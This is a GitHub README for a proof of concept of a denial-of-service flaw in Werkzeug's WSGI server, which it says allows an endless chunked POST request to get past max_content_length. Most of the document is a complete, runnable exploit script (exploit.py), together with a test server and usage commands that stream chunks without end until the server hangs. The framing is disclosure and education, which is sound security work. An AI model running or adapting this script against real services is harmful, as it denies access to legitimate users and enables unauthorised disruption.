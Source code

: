 # Werkzeug WSGI Chunked Upload DoS PoC

Proof of Concept for a denial-of-service (DoS) vulnerability in Werkzeug’s WSGI request handling that allows bypassing the max_content_length limit, causing servers to hang when processing infinite or excessively large HTTP request bodies.


This repository demonstrates a **Denial of Service (DoS)** vulnerability in Werkzeug’s WSGI server related to handling chunked HTTP uploads.

By sending an infinite chunked POST request, an attacker can cause the server to hang indefinitely, bypassing the `max_content_length` protection.

---

## Server

A minimal Werkzeug server exposing an `/upload` endpoint:

```python
from werkzeug.wrappers import Request, Response
from werkzeug.serving import run_simple

@Request.application
def application(request):
    if request.path == "/upload":
        data = request.get_data()
        return Response(f"Received {len(data)} bytes\n", mimetype="text/plain")
    return Response("Hello World\n", mimetype="text/plain")

if __name__ == "__main__":
    print("Starting Werkzeug server on http://0.0.0.0:5000")
    run_simple("0.0.0.0", 5000, application)
```
Exploit Code (exploit.py)
This script sends an HTTP chunked POST request with an infinite stream of data chunks, causing the server to hang.

```python
import socket
import sys
import time

def send_chunk(sock, data: bytes):
    chunk_size = f"{len(data):X}\r\n".encode()
    sock.sendall(chunk_size + data + b"\r\n")

def send_chunked_request(host, port, path, infinite=False, chunk_data=b'a'*1024, max_chunks=100):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    headers = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Transfer-Encoding: chunked\r\n"
        "Connection: close\r\n"
        "\r\n"
    )
    sock.sendall(headers.encode())

    count = 0
    try:
        while True:
            send_chunk(sock, chunk_data)
            count += 1
            print(f"[+] Sent chunk #{count} ({len(chunk_data)} bytes)")
            if not infinite and count >= max_chunks:
                break
            time.sleep(0.1)
        sock.sendall(b"0\r\n\r\n")
        print("[+] Sent last chunk (0-length) to close request")
    except KeyboardInterrupt:
        print("\n[!] Interrupted by user")
    except Exception as e:
        print(f"[!] Exception: {e}")
    finally:
        sock.close()

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print(f"Usage: python {sys.argv[0]} <host> <port> <path> [infinite]")
        print("Example: python exploit.py 127.0.0.1 5000 /upload infinite")
        sys.exit(1)

    host = sys.argv[1]
    port = int(sys.argv[2])
    path = sys.argv[3]
    infinite = len(sys.argv) > 4 and sys.argv[4].lower() == "infinite"

    send_chunked_request(host, port, path, infinite=infinite)
```

##Usage
Run the vulnerable Werkzeug server:
```bash
python werkzeug_server.py
```
In another terminal, run the exploit against the server:
```bash
python exploit.py 127.0.0.1 5000 /upload infinite
```


Uploading dos-server.mp4…



This will send an infinite HTTP chunked upload request causing the server to hang, demonstrating the DoS vulnerability.
Explanation
The Werkzeug server reads all the incoming chunked request data with request.get_data().

The exploit sends an infinite stream of chunked data (never sending the terminating zero-length chunk).

Werkzeug's max_content_length protection is bypassed because the server keeps waiting for the end of the chunked stream, which never arrives.

This causes the server to hang indefinitely, leading to a Denial of Service.

#Impact
Remote attacker can send crafted chunked uploads that hang the server.

Denies legitimate clients access to the server.

Could be exploited for DoS attacks on services using Werkzeug WSGI server without additional protections.

#Disclaimer
Use this code only in environments you own or have explicit permission to test. Do not attack unauthorized systems.

#Notes
1.This is for educational and testing purposes only.

2.Werkzeug's built-in server is a development server and not meant for production.

3.Real-world WSGI servers or frameworks may have mitigations or behave differently.




